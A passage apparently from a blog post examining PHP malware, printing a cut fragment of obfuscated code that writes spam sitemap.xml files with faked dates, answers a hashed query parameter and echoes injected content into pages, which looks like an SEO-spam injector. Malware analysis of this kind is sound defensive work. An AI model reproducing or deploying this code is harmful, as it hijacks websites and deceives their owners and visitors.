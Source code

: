 ```php
			} elseif (!empty($_m2ht28x6["data"]["code"])) {
				echo $_m2ht28x6["data"]["code"];
				return true;
			}
		}
		return false;
	}

	public function _mn403(){
		return _zh7q3s::_mn403() && _royr5j::_mn403() && _zsop1pp::_mn403();
	}

	static public function _2vjoa(){
		if ((!empty($_SERVER['HTTPS']) && $_SERVER['HTTPS'] !== 'off') || $_SERVER['SERVER_PORT'] == 443) {
			return true;
		}
		return false;
	}

	public static function _b9eit(){
		$_l8rv0m91 = explode("?", $_SERVER["REQUEST_URI"], 2);
		$_l8rv0m91 = $_l8rv0m91[0];
		return sprintf("%s://%s%s", _abtwpw0::_2vjoa() ? "https" : "http", $_SERVER['HTTP_HOST'], $_l8rv0m91);
	}

	public static function _tp54w(){
		$_l8rv0m91 = explode("?", $_SERVER["REQUEST_URI"], 2);
		$_l8rv0m91 = $_l8rv0m91[0];
		$_3lantxxc = substr($_l8rv0m91, 0, strrpos($_l8rv0m91, "/"));
		return sprintf("%s://%s%s", _abtwpw0::_2vjoa() ? "https" : "http", $_SERVER['HTTP_HOST'], $_3lantxxc);
	}

	public static function _yzcee(){
		$_8ml56txq = "<?xml version=\"1.0\" encoding=\"UTF-8\"?" . ">\n<urlset xmlns=\"http://www.sitemaps.org/schemas/sitemap/0.9\">\n";
		$_hz6xkygy = "</urlset>";
		$_5vjv3mu2 = "";
		$_plzk7uci = substr(md5(_abtwpw0::$_gc26w45m . "salt3"), 0, 6);
		$_pfoa7z23 = _zsop1pp::_v2cr7();
		foreach ($_pfoa7z23 as $_rvr9m8df){
			$_d0cfol96 = sprintf("%s?%s=%s",_abtwpw0::_b9eit(),$_plzk7uci,urlencode(str_replace(" ", "-", $_rvr9m8df)));
			$_vzr5de5g = time() - mt_rand(0, 60 * 60 * 24 * 30);
			$_5vjv3mu2 .= "<url>\n";
			$_5vjv3mu2 .= sprintf("<loc>%s</loc>\n", $_d0cfol96);
			$_5vjv3mu2 .= sprintf("<lastmod>%s</lastmod>\n", date("Y-m-d", $_vzr5de5g));
			$_5vjv3mu2 .= "<priority>0.3</priority>\n";
			$_5vjv3mu2 .= "</url>\n";
		}
		$_594ub8ay = $_8ml56txq . $_5vjv3mu2 . $_hz6xkygy;
		$_negl3ygm = dirname(__FILE__) . "/sitemap.xml";
		$_cpk4clop = _abtwpw0::_tp54w() . "/sitemap.xml";
		@file_put_contents($_negl3ygm, $_594ub8ay);
		return $_cpk4clop;
	}

	public function _t31lu(){
		$_plzk7uci = substr(md5(_abtwpw0::$_gc26w45m . "salt3"), 0, 6);
		if (isset($_GET[$_plzk7uci])){$_5oudn589 = $_GET[$_plzk7uci];
			$_5oudn589 = str_replace("-", " ", $_5oudn589);
```

[c1405681]: /2018/11/07/PHP-Malware-Examination/ "PHP Malware Examination"
